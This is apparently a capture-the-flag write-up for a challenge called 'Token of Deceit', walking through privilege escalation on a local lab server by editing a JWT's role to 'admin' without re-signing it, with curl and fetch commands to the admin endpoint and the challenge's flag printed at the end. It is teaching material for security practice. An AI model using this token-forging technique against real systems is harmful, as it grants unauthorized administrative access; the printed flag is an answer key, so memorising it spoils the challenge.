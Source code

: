 ## HOW TO SOLVE: TOKEN OF DECEIT

1. Sign up
   
     •	Create an account to be automatically assigned the "user" role.

2. Login

     •	After account creation, you’ll be redirected to the login page.
   
     •	Use the same credentials to log in.
   
     •	Upon successful login, the server generates and sends a JWT.

3. Decode the JWT without verifying the signature
   
     a. Open the console:
   
       •	On MacOS, press (Option + Command + J).
   
       •	On Windows, press (Ctrl + Shift + J).
       
     b. You’ll see the following message: **GET http://localhost:3000/admin 403 (Forbidden)**
   
     c. Run the following command in the console to get the token, containing three parts, each separated by a period (.):
   
        localStorage.getItem('token');
      
     d. The token role will be "user" as per your credentials.
   
     e. Visit jwt.io and paste the JWT into the "Encoded" field to view the decoded payload.

4. Manipulate the JWT Payload
     a. Change the role to "admin".
   
       For example:
   
       {
         "username": "isabella",
         "role": "admin",
         "iat": 1738901843,
         "exp": 1738905443
       }
   
     b. No need to re-sign the token, as the program has a vulnerability that does not verify the signature.
   
     c. Your JWT is now modified.

6. Send the Manipulated JWT to the Server (2 ways)
   
   You can use one of the following methods to send the modified JWT to the server:
   
   a. Using cURL (command line):
   
     •	Open your terminal and type:
     
       curl -H "Authorization: Bearer MANIPULATED-JWT" http://localhost:3000/admin
   
   b. Using the Browser Console:
   
     •	Run this JavaScript:
     
       fetch("http://localhost:3000/admin", {
           method: "GET",
           headers: {
               "Authorization": "Bearer MANIPULATED-JWT"
           }
       })
       .then(response => response.json())
       .then(data => console.log(data))
       .catch(error => console.error("Error:", error));

7. Access the Admin Endpoint and Retrieve the Flag
    
     a. The server will decode the manipulated token and grant admin access.
    
     b. The server will respond with the flag:
   
         {"flag":"ATHACKCTF{trust_is_a_vulnerability}"}
